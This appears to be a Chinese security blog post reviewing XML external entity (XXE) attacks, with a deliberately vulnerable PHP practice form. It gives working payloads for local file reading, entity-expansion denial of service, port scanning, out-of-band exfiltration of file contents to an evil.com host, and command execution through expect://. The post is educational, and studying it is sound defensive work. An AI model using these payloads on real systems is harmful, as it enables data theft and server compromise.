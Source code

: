 ```yaml
---
layout: post
title: "XML实体攻击回顾"
tags: [security,web]
---
```



XML实体攻击已经是一个很老的技术了，这里仅对学习的过程做一个记录。

{% highlight php %}
<form method="POST" action="">
	<textarea name="keyword" value="" style="width: 500px; height: 300px"></textarea>
	<input type="submit" value="submit">
</form>

<?php
$keyword = $_POST['keyword'];
$xml_obj = simplexml_load_string($keyword);
var_dump($xml_obj);
{% endhighlight %}

上面这段代码用于XXE实体攻击的练习，你可以将其保存至你的环境下用于测试。（记得删除 :P）

XML讲解可以参考w3schools的教程-[XML](http://www.w3schools.com/xml/)。

这里简单说一下XML中的实体类型，大致有下面几种：

* 字符实体
* 命名实体
* 外部实体
* 参数实体

除参数实体外，其它实体都以字符（&）开始，以字符（;）结束。常规实体有：`&apos;（'）`、`&amp;（&）`、`&quot;（"）`、`&lt;（<）`、`&gt;（>）`。

**字符实体**类似html中的实体编码，形如：`&#97;（十进制）`或者`&#x61;（十六进制）`。

**命名实体**可以说成是变量声明，命名实体只能声明在DTD或者XML文件开始部分（<!DOCTYPE>语句中）。如下面代码所示：

    <?xml version="1.0" encoding="utf-8"?>
    <!DOCTYPE root [
        <!ENTITY x "First Param!">
        <!ENTITY y "Second Param!">
    ]>
    <root><x>&x;</x><y>&y;</y></root>

**外部实体**用于加载外部文件的内容。（XXE攻击主要利用此实体）

    <?xml version="1.0" encoding="utf-8"?>
    <!DOCTYPe root [
        <!ENTITY outfile SYSTEM "outfile.xml">
    ]>
    <root><outfile>&outfile;</outfile></root>

**参数实体**用于DTD和文档的内部子集中。与一般实体相比它以字符（%）开始，以字符（;）结束。只有在DTD文件中才能在参数实体声明的时候引用其他实体。（XXE攻击常结合利用参数实体进行数据回显）

    <?xml version="1.0" encoding="utf-8"?>
    <!DOCTYPE root [
        <!ENTITY % param1 "Hello">
        <!ENTITY % param2 " ">
        <!ENTITY % param3 "World">
        <!ENTITY dtd SYSTEM "combine.dtd">
        %dtd;
    ]>
    <root><foo>&content</foo></root>
    
combine.dtd中的内容为：

    <!ENTITY content "%param1;%param2;%param3;">
    
上面combine.dtd中定义了一个基本实体，引用了3个参数实体：

    %param1;，%param2;，%param3;。

解析后`<foo>...</foo>`中的内容为`Hello World`。

XML实体攻击主要利用了XML实体中的外部实体结合各种协议来读取服务器上的数据，在DTD文件中的参数实体声明时能够引用其他参数实体的值，因此在XXE攻击回显遇到困难时会用到。

### * 简单文件读取

因为可以进行外部实体加载，在XXE攻击中常用来进行本地文件读取。

    <?xml version="1.0" encoding="utf-8"?>
    <!DOCTYPE root [
        <!ENTITY content SYSTEM "file://localhost/c:/windows/win.ini">
    ]>
    <root><foo>&content;</foo></root>
    
![img]({{ site.url }}/public/img/article/2015-06-08-xml-entity-attack-review/file_read.png)

在使用`file://`协议时，有以下几种格式：

    * Linux
    file:///etc/passwd
    
    * Windows
    file:///c:/windows/win.ini
    file://localhost/c:/windows/win.ini
    （下面这两种在某些浏览器里是支持的）
    file:///c|windows/win.ini
    file://localhost/c|windows/win.ini
    
除了使用`file://`协议进行文件读取外，如果XML文档是用PHP进行解析的，那么还可以使用`php://filter`协议来进行读取。

    <?xml version="1.0" encoding="utf-8"?>
    <!DOCTYPE root [
        <!ENTITY content SYSTEM "php://filter/resource=c:/windows/win.ini">
    ]>
    <root><foo>&content;</foo></root>
    
### * DoS攻击

因为解析器会解析文档中的所有实体，因此如果实体声明层层嵌套的话，在一定数量上可以对服务器器造成DoS。

    <?xml version="1.0" encoding="utf-8"?>
    <!DOCTYPE root [
        <!ENTITY x1 "CPU Consuming Task!">
        <!ENTITY x2 "&x1;&x1;">
        <!ENTITY x3 "&x2;&x2;&x2;">
        ...
        <!ENTITY x100 "&x99;&x99;&x99;...">
    ]>
    <root><foo>&x100;</foo></root>

嵌套实体声明曾指数增长，可能造成对服务器的DoS。

    <?xml version="1.0" encoding="utf-8"?>
    <!DOCTYPE root [
        <!ENTITY dos SYSTEM "/dev/zero">
    ]>
    <root></root>
    
加载一个不稳定的文件描述也可能产生DoS。

### * 端口扫描

加载外部DTD时有两种加载方式，一种为私有`private`，第二种为公告`public`。

私有类型DTD加载：

    <!ENTITY private_dtd SYSTEM "DTD_location">
    
公共类型DTD加载：

    <!ENTITY public_dtd PUBLIC "DTD_name" "DTD_location">
    
在公共类型DTD加载的时候，首先会使用`DTD_name`来检索，如果无法找到，则通过`DTD_location`来寻找此公共DTD。利用`DTD_location`，在一定的环境下可以用来做内网探测。

    <?xml version="1.0" encoding="utf-8"?>
    <!DOCTYPE root [
        <!ENTITY portscan SYSTEM "http://localhost:3389">
    ]>
    <root><foo>&portscan;</foo></root>
    
因解析器种类不同，所以针对XXE攻击进行端口扫描需要一个合适的环境才能够实现，例如：有明显的连接错误信息。

### * 利用DTD进行数据回显

当利用XXE攻击进行文件读取时经常因为没有回显而显得鸡肋，这个时候就可以结合参数实体的特殊性，加载一个外部DTD来进行回显。

    <?xml version="1.0" encoding="utf-8"?>
    <!DOCTYPE root [
        <!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=c:/windows/win.ini">
        <!ENTITY % dtd SYSTEM "http://192.168.1.100:8000/evil.dtd">
        %dtd;
        %send;
    ]>
    <root></root>
    
其中`evil.dtd`的内容如下：

    <!ENTITY % payload "<!ENTITY &#x25; send SYSTEM 'http://evil.com/?content=%file;'>">
    %payload;
    
在DTD文件中声明了参数实体`payload`，其值是一个实体参数声明，因为是在DTD里面，所以可以引用上文的`%file;`参数实体，`%file;`参数实体为`c:/windows/win.ini`文本的内容。最后在原XML里引用DTD中的参数实体，此时就可以讲本地文件读取的内容通过HTTP发送出去（为了让请求的URL有效，这里对使用了`php://filter`协议，并将内容使用base64进行了编码）。

![img]({{ site.url }}/public/img/article/2015-06-08-xml-entity-attack-review/redirect_file.png)

此方法针对数据不回显的情况及其有用。

### * 远程命令执行

当然了，除了文件读取和DoS外，某些情况下还能进行RCE。例如在PHP开启了PECL上的Expect扩展时，就能使用`expect://`协议来执行命令。

    <?xml version="1.0" encoding="utf-8"?>
    <!DOCTYPE root [
        <!ENTITY content SYSTEM "expect://dir .">
    ]>
    <root><foo>&content;</foo></root>
    
利用XXE攻击时需要结合实际环境才能发挥出其威力。:D

### 参数

* [http://www.ibm.com/developerworks/cn/xml/x-entities/](http://www.ibm.com/developerworks/cn/xml/x-entities/)
* [https://www.youtube.com/watch?v=eHSNT8vWLfc](https://www.youtube.com/watch?v=eHSNT8vWLfc)
* [http://blogs.msdn.com/b/ie/archive/2006/12/06/file-uris-in-windows.aspx](http://blogs.msdn.com/b/ie/archive/2006/12/06/file-uris-in-windows.aspx)
* [http://en.wikipedia.org/wiki/File_URI_scheme](http://en.wikipedia.org/wiki/File_URI_scheme)

